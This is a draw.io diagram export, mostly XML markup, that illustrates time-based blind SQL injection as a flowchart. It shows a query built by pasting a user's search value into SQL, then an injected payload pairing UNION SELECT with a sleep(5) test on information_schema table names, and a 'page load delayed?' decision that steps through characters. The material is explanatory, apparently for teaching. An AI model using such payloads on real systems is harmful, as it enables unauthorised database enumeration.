

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="2592" dy="855" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="1169" pageHeight="827" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" edge="1">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="1160" y="220" as="sourcePoint" />
        <mxPoint x="590" y="470" as="targetPoint" />
        <Array as="points">
          <mxPoint x="1160" y="300" />
          <mxPoint x="590" y="300" />
          <mxPoint x="590" y="450" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-1" value="&lt;font style=&quot;font-size: 25px&quot;&gt;SELECT id,usr_name,name,status,rank,join_date FROM user_data WHERE usr_name = '$&lt;font color=&quot;#ff0000&quot;&gt;search_value&lt;/font&gt;$';&amp;nbsp;&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;fontFamily=Courier New;" parent="1" vertex="1">
      <mxGeometry x="-145" y="190" width="1460" height="20" as="geometry" />
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-4" value="&lt;font style=&quot;font-size: 25px&quot; face=&quot;Courier New&quot;&gt;... WHERE usr_name = '&lt;font color=&quot;#ff0000&quot;&gt;'UNION SELECT IF(SUBSTRING(table_name,1,1) = CHAR(85), sleep(5),'No') FROM information_schema.tables LIMIT 1;#&lt;/font&gt; '&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;" parent="1" vertex="1">
      <mxGeometry x="-430" y="480" width="2030" height="20" as="geometry" />
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" target="G7TNZ5rXacA-WNr_-aAW-7" edge="1">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="533" y="560" as="sourcePoint" />
        <mxPoint x="584" y="660" as="targetPoint" />
        <Array as="points">
          <mxPoint x="533" y="610" />
          <mxPoint x="584" y="610" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-6" value="" style="shape=curlyBracket;whiteSpace=wrap;html=1;rounded=1;fontFamily=Courier New;rotation=-90;" parent="1" vertex="1">
      <mxGeometry x="518.13" y="159.38" width="30" height="751.25" as="geometry" />
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-9" value="&lt;font color=&quot;#00ff00&quot; style=&quot;font-size: 20px&quot;&gt;Yes&lt;/font&gt;" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontFamily=Courier New;labelBackgroundColor=none;" parent="1" edge="1">
      <mxGeometry x="0.1999" y="50" relative="1" as="geometry">
        <mxPoint x="770" y="772" as="sourcePoint" />
        <mxPoint x="820" y="771.5999999999999" as="targetPoint" />
        <Array as="points">
          <mxPoint x="800" y="772" />
          <mxPoint x="800" y="772" />
        </Array>
        <mxPoint x="-49" y="50" as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-11" value="&lt;font color=&quot;#ff0000&quot; style=&quot;font-size: 20px&quot;&gt;No&lt;/font&gt;" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontFamily=Courier New;labelBackgroundColor=none;" parent="1" edge="1">
      <mxGeometry x="-0.0001" y="-45" relative="1" as="geometry">
        <mxPoint x="390" y="772" as="sourcePoint" />
        <mxPoint x="340" y="771.5" as="targetPoint" />
        <Array as="points">
          <mxPoint x="365" y="772" />
        </Array>
        <mxPoint x="44" y="44" as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-20" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;labelBackgroundColor=none;fontFamily=Courier New;strokeColor=none;endArrow=none;endFill=0;" parent="1" source="G7TNZ5rXacA-WNr_-aAW-7" edge="1">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="730" y="772" as="targetPoint" />
        <Array as="points">
          <mxPoint x="720" y="772" />
          <mxPoint x="720" y="772" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-21" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;labelBackgroundColor=none;endArrow=none;endFill=0;fontFamily=Courier New;" parent="1" source="G7TNZ5rXacA-WNr_-aAW-7" edge="1">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="730" y="772" as="targetPoint" />
        <Array as="points">
          <mxPoint x="720" y="772" />
          <mxPoint x="720" y="772" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-22" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;labelBackgroundColor=none;endArrow=none;endFill=0;fontFamily=Courier New;" parent="1" source="G7TNZ5rXacA-WNr_-aAW-7" edge="1">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="430" y="772" as="targetPoint" />
        <Array as="points">
          <mxPoint x="457" y="772" />
          <mxPoint x="457" y="772" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-7" value="&lt;font style=&quot;font-size: 20px&quot;&gt;Page Load was delayed?&lt;/font&gt;" style="rhombus;whiteSpace=wrap;html=1;fontFamily=Courier New;fillColor=none;" parent="1" vertex="1">
      <mxGeometry x="483" y="680" width="202.5" height="183" as="geometry" />
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontFamily=Courier New;" parent="1" source="G7TNZ5rXacA-WNr_-aAW-12" target="G7TNZ5rXacA-WNr_-aAW-15" edge="1">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-12" value="&lt;font style=&quot;font-size: 20px&quot;&gt;The first table in the schema does not start with the 'U' character&amp;nbsp;&lt;/font&gt;" style="whiteSpace=wrap;html=1;fontFamily=Courier New;fillColor=none;" parent="1" vertex="1">
      <mxGeometry x="120" y="717.25" width="220" height="112.75" as="geometry" />
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontFamily=Courier New;" parent="1" source="G7TNZ5rXacA-WNr_-aAW-13" target="G7TNZ5rXacA-WNr_-aAW-15" edge="1">
      <mxGeometry relative="1" as="geometry">
        <Array as="points">
          <mxPoint x="930" y="890" />
          <mxPoint x="584" y="890" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-13" value="&lt;span style=&quot;font-size: 20px&quot;&gt;The first table in the schema starts with the 'U' character&amp;nbsp;&lt;/span&gt;" style="whiteSpace=wrap;html=1;fontFamily=Courier New;fillColor=none;" parent="1" vertex="1">
      <mxGeometry x="820" y="715.13" width="220" height="112.75" as="geometry" />
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontFamily=Courier New;" parent="1" source="G7TNZ5rXacA-WNr_-aAW-15" edge="1">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="584" y="1110" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="G7TNZ5rXacA-WNr_-aAW-15" value="&lt;font style=&quot;font-size: 20px&quot;&gt;Next Character&lt;/font&gt;" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;fontFamily=Courier New;fillColor=none;" parent="1" vertex="1">
      <mxGeometry x="501.25" y="990" width="166" height="70" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>